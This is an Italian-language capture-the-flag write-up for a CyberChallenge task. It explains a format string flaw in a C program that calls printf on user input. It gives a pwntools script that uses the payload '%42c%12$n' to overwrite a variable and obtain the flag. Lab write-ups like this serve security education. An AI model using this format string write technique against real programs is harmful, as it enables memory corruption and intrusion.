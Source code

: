 # Writeup: SS_2.03 - the answer

## Descrizione 📝
La challenge presenta un semplice programma C che chiede il nome dell’utente e lo stampa in modo insicuro, consentendo un attacco di **format string**. L’obiettivo è modificare il valore della variabile `answer` da `0xbadc0ffe` a `42` per ottenere la flag.

## Dettagli del Programma
1. **Input**: `fgets(name, sizeof(name), stdin)` per leggere il nome.  
2. **Output**: `printf(name);` – Vulnerabilità di format string.  
3. **Variabile**: `answer`, inizializzata a `0xbadc0ffe`. Se diventa `42`, viene stampata la flag.

## Vulnerabilità 🎯
Usare `printf(name)` senza specificare il formato permette di:
1. **Leggere** arbitrariamente la memoria (`%x`, `%p`, ecc.).  
2. **Scrivere** arbitrariamente nella memoria con `%n`.

## Individuazione dell’Indirizzo di `answer`
Analizzando il binario con `objdump -D` o `nm`, troviamo che `answer` risiede, ad esempio, a `0x601078` (se non c’è PIE).

## Exploit: `%42c%12$n`
- **`%42c`**: Stampa 42 caratteri, incrementando il contatore interno di `printf` a 42.  
- **`%12$n`**: Scrive il valore del contatore (42) all’indirizzo passato come 12° argomento.

## Esempio di Codice in Python
```python
from pwn import *

conn = remote('answer.challs.cyberchallenge.it', 9122)
conn.recvuntil(b"What's your name?\n")

# Indirizzo di 'answer'
addr = p64(0x601078)  # Esempio: da 'nm' o 'objdump'

# Costruzione format string
# %42c -> stampa 42 caratteri
# %12$n -> scrive 42 all'indirizzo del 12° argomento
payload = b"%42c%12$n"

# Padding per allineare i parametri
padding = b"a" * 6

# Creiamo la stringa
input_string = payload + b"\0" + padding + addr

# Invio
conn.sendline(input_string)
print(conn.recvall().decode())
```

1. **`p64(0x601078)`**: Converte l’indirizzo in 8 byte (little-endian).  
2. **`%42c%12$n`**: Stampa 42 caratteri, poi scrive 42 in `addr`.  
3. **Padding**: Serve per posizionare correttamente l’indirizzo come 12° argomento di `printf`.

## Flag 🏁
Dopo aver eseguito l’exploit, la variabile `answer` diventa 42. Il programma riconosce la condizione `if (answer == 42)` e stampa la flag.
```
CCIT{50 LoNg, & Thanks for 4ll tH3 F1sh}
```


## Lezioni Apprese 📚
1. **Format String**: Non bisogna mai passare direttamente stringhe controllate dall’utente a `printf`.  
2. **Scrittura con `%n`**: Permette di impostare in memoria il valore del contatore di stampa.  
3. **No PIE**: L’indirizzo di `answer` è fisso, facilitando l’exploit.  
4. **Allineamento dei Parametri**: Bisogna trovare il corretto offset (`%12$n`) per puntare al proprio indirizzo.  

## Tools Utilizzati 🛠️
- **pwntools**: Per automatizzare la connessione e la costruzione dell’exploit.  
- **nm / objdump**: Per individuare l’indirizzo di `answer`.  
- **gdb** (opzionale): Per debug locale e conferma degli offset di stack.

---

*Writeup by Luca Crippa - Last Updated: 2024*
